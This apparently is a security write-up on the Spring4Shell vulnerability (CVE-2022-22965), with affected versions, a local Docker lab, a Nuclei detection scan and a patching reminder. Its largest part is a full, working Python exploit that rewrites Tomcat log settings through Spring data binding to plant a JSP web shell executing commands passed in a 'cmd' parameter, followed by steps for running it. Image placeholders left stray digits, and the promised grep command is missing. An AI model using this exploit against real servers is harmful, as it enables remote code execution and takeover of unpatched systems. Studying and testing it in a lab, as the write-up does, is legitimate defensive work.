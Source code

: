
A Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. The specific exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. However, the nature of the vulnerability is more general, and there may be other ways to exploit it.

Spring WebFlux is a fully non-blocking, annotation-based web framework built on Project Reactor that makes it possible to build reactive applications on the HTTP layer. WebFlux uses a new router functions feature to apply functional programming to the web layer and bypass declarative controllers and RequestMappings.

To understand how to Build Web Api's or Web Applications in Spring WebFlux [Read this article](https://howtodoinjava.com/spring-webflux/spring-webflux-tutorial/#:~:text=What%20is%20Spring%20WebFlux%20%3F,easily%20work%20on%20webflux%20also.)



## Prerequisites for the exploit:

If you’re using Tomcat and a vulnerable version of Spring, you pretty much have a problem, and should be patching now, Here are the pre-requirements for current exploit to work on the target system:

- JDK 9 or higher
- Apache Tomcat as the Servlet container.
- Packaged as a traditional WAR (in contrast to a Spring Boot executable jar).
- spring-webmvc or spring-webflux dependency.
- Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions.
> However, the nature of the vulnerability is more general, and there may be other ways to exploit it that have not been reported yet.


## Severity

The Severity is __CRITICAL__, Click the following [Link to CVSS-v3](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  to have a indepth look at how this vulnerability effects the CIA of the target system.


## Is your Application Build Upon Spring Framework?

This quick grep search can help you identify if your application is build upon the spring framework, This is definetly not the proper way to make sure you are completely safe against the vulnerability but will defenetly help you to have a starting point to investigate things.

- Unzip the war package: 

- Now goto the decompressed Directory and excute the following command to find any file which matches `spring-beans-*.jar` pattern. If the grep returns any results it indicates that the business system is developed using the Spring framework.

4


## Proof the Concept:

This exploit code was published by [@esheavyind](https://twitter.com/esheavyind), 

```python3
# Author: @Rezn0k
# Based off the work of p1n93r

import requests
import argparse
from urllib.parse import urlparse
import time

# Set to bypass errors if the target site has SSL issues
requests.packages.urllib3.disable_warnings()

post_headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

get_headers = {
    "prefix": "<%",
    "suffix": "%>//",
    # This may seem strange, but this seems to be needed to bypass some check that looks for "Runtime" in the log_pattern
    "c": "Runtime",
}


def run_exploit(url, directory, filename):
    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
                  f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
                  f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
                  f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

    exp_data = "&".join([log_pattern, log_file_suffix, log_file_dir, log_file_prefix, log_file_date_format])

    # Setting and unsetting the fileDateFormat field allows for executing the exploit multiple times
    # If re-running the exploit, this will create an artifact of {old_file_name}_.jsp
    file_date_data = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_"
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=file_date_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)

    # Change the tomcat log location variables
    print("[*] Modifying Log Configurations")
    ret = requests.post(url, headers=post_headers, data=exp_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)

    # Changes take some time to populate on tomcat
    time.sleep(3)

    # Send the packet that writes the web shell
    ret = requests.get(url, headers=get_headers, verify=False)
    print("[*] Response Code: %d" % ret.status_code)

    time.sleep(1)

    # Reset the pattern to prevent future writes into the file
    pattern_data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern="
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=pattern_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)


def main():
    parser = argparse.ArgumentParser(description='Spring Core RCE')
    parser.add_argument('--url', help='target url', required=True)
    parser.add_argument('--file', help='File to write to [no extension]', required=False, default="shell")
    parser.add_argument('--dir', help='Directory to write to. Suggest using "webapps/[appname]" of target app',
                        required=False, default="webapps/ROOT")

    file_arg = parser.parse_args().file
    dir_arg = parser.parse_args().dir
    url_arg = parser.parse_args().url

    filename = file_arg.replace(".jsp", "")

    if url_arg is None:
        print("Must pass an option for --url")
        return

    try:
        run_exploit(url_arg, dir_arg, filename)
        print("[+] Exploit completed")
        print("[+] Check your target for a shell")
        print("[+] File: " + filename + ".jsp")

        if dir_arg:
            location = urlparse(url_arg).scheme + "://" + urlparse(url_arg).netloc + "/" + filename + ".jsp"
        else:
            location = f"Unknown. Custom directory used. (try app/{filename}.jsp?cmd=id"
        print(f"[+] Shell should be at: {location}?cmd=id")
    except Exception as e:
        print(e)


if __name__ == '__main__':
    main()
```

### Running the Exploit

The amazing group of members are Lunasec developed an Java Web Aplication that is vulnerable to the Spring4Shell vulnerability (CVE-2022-22965), The Application is dockerized so that it can be easily implemented, The Application was build based on the tutorials provided on official Documentation of Spring for [Form Handling](https://spring.io/guides/gs/handling-form-submission/).

Github Link: https://github.com/lunasec-io/Spring4Shell-POC


__How to Setup the Lab:__

- Clone the repository by typing `git clone https://github.com/lunasec-io/Spring4Shell-POC.git` in the terminal.
- cd to the cloned reporsitory and Build and run the container: `docker build . -t spring4shell && docker run -p 8080:8080 spring4shell`
- The Vulnerable Application will now be available at http://localhost:8080/helloworld/greeting

1

- Now the Copy the exploit code mentioned above and save it as `exploit.py`
- Now go to your terminal and execute the Exploit on Vulnerable url `python3 exploit.py --url http://localhost:8080/helloworld/greeting`
2

- On visiting the shell URL which is (http://localhost:8080/shell.jsp?cmd=id
) in my case, and passing any command in `cmd=` argument, You can see you have successfully Achived RCE on the App-Docker-Container.

3


## Scanning Your Networks

Recently one of the security researchers have build a Nuclie Teamplate to Detect Spring4Shell, This template can be easily run to scan for Spring4Shell on your Networking, routing or security devices inside your network.

Template Links: https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-22965.yaml

__How to run a Scan:__

- Download the template in the current dir
- Save all your target IP's or Web Addresses in `urls.txt`
- run `nuclei -list urls.txt -t CVE-2022-22965.yaml`


## Refrences:

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement
https://tanzu.vmware.com/security/cve-2022-22965
https://github.com/lunasec-io/Spring4Shell-POC
